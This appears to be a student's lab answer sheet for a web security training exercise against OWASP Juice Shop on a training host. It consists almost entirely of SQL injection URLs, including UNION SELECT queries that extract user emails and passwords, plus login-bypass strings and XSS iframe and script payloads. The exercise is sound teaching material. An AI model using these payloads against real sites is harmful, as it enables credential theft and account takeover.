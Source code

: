 # Lab6 - web_applications_security
## Open Firefox browser 
6. 
``` 
http://labs.training.local/rest/products/search?q= 
```
7. 
``` 
http://labs.training.local/rest/products/search?q=test’-- 
```
8. 
``` 
http://labs.training.local/rest/products/search?q=test’)) -- 
```
10. 
``` 
http://labs.training.local/rest/products/search?q=test’)) UNION SELECT * FROM Users --

http://labs.training.local/rest/products/search?q=test')) UNION SELECT '1', '2', '3', '4' FROM Users --
``` 
11. 
``` 
http://labs.training.local/rest/products/search?q=test')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM Users --
``` 
12. 
``` 
http://labs.training.local/rest/products/search?q=test')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users --
``` 
14. 
```
admin@juice-sh.op'--
```
15.
```
' or 1=1-- 
```

# Útok so zneužitím XSS
4. 
```
<script>alert(`xss`)</script>
```
4/5 
```
<iframe src="javascript:alert(`xss`)">
```
5. 
```
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe> 
```

